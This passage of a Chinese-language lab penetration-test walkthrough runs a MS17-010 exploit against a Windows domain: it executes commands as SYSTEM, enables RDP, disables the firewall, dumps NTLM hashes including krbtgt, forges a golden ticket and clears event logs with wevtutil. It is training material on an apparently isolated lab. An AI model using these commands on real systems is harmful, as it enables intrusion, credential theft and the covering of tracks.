    [*] 192.168.52.141:445 - Uploading payload... xxjxkZjL.exe
    [*] 192.168.52.141:445 - Created \xxjxkZjL.exe...
    [+] 192.168.52.141:445 - Service started successfully...
    [*] 192.168.52.141:445 - Deleting \xxjxkZjL.exe...
    [*] Started bind TCP handler against 192.168.52.141:4444
    [*] Sending stage (176198 bytes) to 192.168.52.141
    [-] Meterpreter session 3 is not valid and will be closed
    [*] 192.168.52.141 - Meterpreter session 3 closed.  Reason: Died
    ```
    

### 尝试ms17_010_command

因为域成员`141`是`32`位的，MSF的永恒之蓝仅支持`x64` ，所以我们换一个全版本的，仅用来执行命令的

```python
msf6 auxiliary(server/socks_proxy) > use auxiliary/admin/smb/ms17_010_command 
msf6 auxiliary(admin/smb/ms17_010_command) > set rhost 192.168.52.141
msf6 auxiliary(admin/smb/ms17_010_command) > run
[*] 192.168.52.141:445    - Target OS: Windows Server 2003 3790                                          
[*] 192.168.52.141:445    - Filling barrel with fish... done                                             
[*] 192.168.52.141:445    - <---------------- | Entering Danger Zone | ---------------->                 
[*] 192.168.52.141:445    -     [*] Preparing dynamite...                                                
[*] 192.168.52.141:445    -             Trying stick 1 (x64)...Miss                                      
[*] 192.168.52.141:445    -             [*] Trying stick 2 (x86)...Boom!                                 
[*] 192.168.52.141:445    -     [+] Successfully Leaked Transaction!                                     
[*] 192.168.52.141:445    -     [+] Successfully caught Fish-in-a-barrel                                 
[*] 192.168.52.141:445    - <---------------- | Leaving Danger Zone | ---------------->                  
[*] 192.168.52.141:445    - Reading from CONNECTION struct at: 0x8d66dd60                                
[*] 192.168.52.141:445    - Built a write-what-where primitive...                                        
[+] 192.168.52.141:445    - Overwrite complete... SYSTEM session obtained!                               
[+] 192.168.52.141:445    - Service start timed out, OK if running a command or non-service executable...
[*] 192.168.52.141:445    - Getting the command output...                                                
[*] 192.168.52.141:445    - Executing cleanup...    
[+] 192.168.52.141:445    - Cleanup was successful                                                       
[+] 192.168.52.141:445    - Command completed successfully!                                              
[*] 192.168.52.141:445    - Output for "net group "Domain Admins" /domain":                              

The request will be processed at a domain controller for domain god.org.                                 

Group name     Domain Admins                        
Comment        ???????                              

Members                                             

-------------------------------------------------------------------------------                          
Administrator            OWA$                                                                            
The command completed successfully.                 
```

命令执行成功了，我们换一条命令，将其远程桌面服务打开

```python
msf6 auxiliary(admin/smb/ms17_010_command) > set command 'REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 00000000 /f'
```

```python
[*] 192.168.52.141:445    - Target OS: Windows Server 2003 3790
[*] 192.168.52.141:445    - Filling barrel with fish... done
[*] 192.168.52.141:445    - <---------------- | Entering Danger Zone | ---------------->
[*] 192.168.52.141:445    -     [*] Preparing dynamite...
[*] 192.168.52.141:445    -             Trying stick 1 (x64)...Miss
[*] 192.168.52.141:445    -             [*] Trying stick 2 (x86)...Boom!
[*] 192.168.52.141:445    -     [+] Successfully Leaked Transaction!
[*] 192.168.52.141:445    -     [+] Successfully caught Fish-in-a-barrel
[*] 192.168.52.141:445    - <---------------- | Leaving Danger Zone | ---------------->
[*] 192.168.52.141:445    - Reading from CONNECTION struct at: 0x8d1c0d60
[*] 192.168.52.141:445    - Built a write-what-where primitive...
[+] 192.168.52.141:445    - Overwrite complete... SYSTEM session obtained!
[+] 192.168.52.141:445    - Service start timed out, OK if running a command or non-service executable...
[*] 192.168.52.141:445    - Getting the command output...
[*] 192.168.52.141:445    - Executing cleanup...
[+] 192.168.52.141:445    - Cleanup was successful
[+] 192.168.52.141:445    - Command completed successfully!
[*] 192.168.52.141:445    - Output for "REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 00000000 /f":

The operation completed successfully.

[*] 192.168.52.141:445    - Scanned 1 of 1 hosts (100% complete)
```

成功打开，尝试连接，使用`rdesktop` ,用户就用得到的域管理员用户，也可以自己新建（图片上的密码其实是`hongrisec@2019`的）

```python
proxychains rdesktop 192.168.52.141 -p hongrisec@2019 -u administrator
```


登陆成功，拿下`141` ，域控尝试能不能也拿下了,记得关防火墙

```python
msf6 auxiliary(admin/smb/ms17_010_command) > set rhost 192.168.52.141
msf6 auxiliary(admin/smb/ms17_010_command) > set command 'REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 00000000 /f'
msf6 auxiliary(admin/smb/ms17_010_command) > set command set command netsh advfirewall set allprofiles state off
```

```python
proxychains rdesktop 192.168.52.38 -p hongrisec@2019 -u administrator
```


也是可以拿下的，但是用户不存在AD域的文件和`ad`域管理器，但确实是管理员账户，也算是拿下域控了

## 权限维持（黄金票据）

黄金票据是指能够绕过认证授权（Authentication and Authorization）机制并获得所需权限的票据。

1. 现在已经获得域的权限了
2. 我们要收集域名称，域管理员账户`SID`，`krbtgt`账户的`HTLM`的`HASH` （重要）
3. 获取域SID以及域名称
    
    
    
    
    
    域名称`god.org` ,`SID`为`S-1-5-21-2952760202-1353902439-2381784089` 后面的`500`不需要
    
4. 获取`KRBTGT` 的`NTLM`的`HASH`
    
    我这里使用`CS`抓取
    
    ```python
    beacon> hashdump
    [*] Tasked beacon to dump hashes
    [+] host called home, sent: 82541 bytes
    [+] received password hashes:
    Administrator:500:aad3b435b51404eeaad3b435b51404ee:f98564f9c7fab916678466075899f6e1:::
    Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
    krbtgt:502:aad3b435b51404eeaad3b435b51404ee:58e91a5ac358d86513ab224312314061:::
    liukaifeng01:1000:aad3b435b51404eeaad3b435b51404ee:f98564f9c7fab916678466075899f6e1:::
    ligang:1106:aad3b435b51404eeaad3b435b51404ee:1e3d22f88dfd250c9312d21686c60f41:::
    OWA$:1001:aad3b435b51404eeaad3b435b51404ee:35c29a27ff5086ba975d49493673eddb:::
    ROOT-TVI862UBEH$:1104:aad3b435b51404eeaad3b435b51404ee:c1e8fa40153fef225ce4f3d627181bcf:::
    STU1$:1105:aad3b435b51404eeaad3b435b51404ee:75c2c82fa50b7716428d85372374b139:::
    DEV1$:1107:aad3b435b51404eeaad3b435b51404ee:bed18e5b9d13bb384a3041a10d43c01b:::
    ```
    
    `KRBTGT` 的`NTLM`的`HASH` 是`58e91a5ac358d86513ab224312314061` ，收集完这些信息后金票票据就可以制作了
    
5. 首先创建一个用户`test` ，默认没有管理员权限，
6. 假如现在域管理员账户被改了，我们没有密码，只能登陆`test`用户
7. 登录test用户，测试权限
    
    通过网络访问域控文件像是`access is denied` 无权限
    
    
    
8. 制作黄金票据,将`mimikatz`拿到客户机
    
    格式：kerberos::golden /user:XXX任意用户名 /domain:域名 /sid:域的sid值 /ticket:XXX.kirbi(生成的票据名称)
    
    
    
    生成成功
    
9. 使用`klist`查看生成的票据
    
    
    
10. 再通过网络访问域控文件，成功获取
    
    
    
11. 这样就可以重新获得域的管理权，前提是`krbtgt` 账户的密码没有被修改

## 痕迹清理

```python
shell wevtutil cl security    //清理安全日志
shell wevtutil cl system        //清理系统日志
shell wevtutil cl application        //清理应用程序日志
shell wevtutil cl "windows powershell"    //清除power shell日志
shell wevtutil cl Setup     //清除（cl）事件日志中的 "Setup" 事件。
```